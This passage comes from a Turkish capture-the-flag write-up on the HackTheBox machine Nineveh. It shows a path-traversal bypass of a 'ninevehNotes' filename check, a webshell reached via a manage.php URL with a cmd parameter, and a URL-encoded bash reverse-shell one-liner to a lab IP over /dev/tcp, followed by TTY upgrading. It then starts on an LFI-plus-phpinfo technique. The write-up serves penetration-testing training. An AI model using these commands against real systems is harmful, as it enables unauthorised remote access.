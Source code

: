 
Bir süre fark etmedim ama anlaşılan o ki, parametrede **ninevehNotes** ifadesi kontrol ediliyor, ya da sadece **"No Note is selected"** (Seçili Not Yok) mesajını gösteriyor. Ancak bunun etrafından dolanmanın birkaç yolu var; mesela uzantıyı kaldırıp dizinleri yukarıya çıkarabilir veya **/** ile başlayıp mevcut olmayan **ninevehNotes** klasörüne girip hemen çıkmak için **../** kullanabilirim. Sistem, bu iki yöntemi engelliyor ama PHP'nin string kontrolünü geçmesine izin veriyor.


### RCE

Şimdi daha önce http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xdf.php&cmd=id adresinde bıraktığım webshell'e erişebiliyorum

![Pasted image 20250207230127.png](/img/user/Pasted%20image%2020250207230127.png)


### Shell

Bir shell almak için, komutu şu şekilde değiştireceğim:

```
bash -c 'bash -i >%26 /dev/tcp/10.10.16.9/443 0>%261'
```

Bir shell almak için, cmd'yi bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261' olarak değiştireceğim (& işaretlerini url olarak kodlamak önemlidir, aksi takdirde yeni bir parametre başlatıyormuş gibi yorumlanırlar). Nc'de bir shell alıyorum:

![Pasted image 20250207230411.png](/img/user/Pasted%20image%2020250207230411.png)


Python2, Nineveh'de yüklü değil, ama Python3 var.

```
www-data@nineveh:/var/www/html/department$ python -c 'import pty;pty.spawn("bash")'
The program 'python' can be found in the following packages:
 * python-minimal
 * python3
Ask your administrator to install one of them
www-data@nineveh:/var/www/html/department$ python3 -c 'import pty;pty.spawn("bash")'
```

Tamamen işlevsel bir shell elde etmek için Ctrl-z, stty raw -echo, fg, reset yapacağım.

www-data olarak, /home/amrois içinde user.txt dosyasını görebiliyorum ama okuyamıyorum.


## Shell as www-data (via phpinfo.php)

### Background

Ippsec'in bu tekniği [**Poison**](https://youtu.be/rs4zEwONzzk?t=601) videosunda istismar ettiğini hatırlıyorum. **Insomnia Security**'nin 2011 tarihli çok hoş bir [makalesi](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) var, LFI + PHPINFO = RCE nasıl çalıştığını anlatıyor. İlk olarak, PHP'nin **file_uploads = on** olarak yapılandırılmış olması gerekiyor. Neyse ki, burada durum böyle.
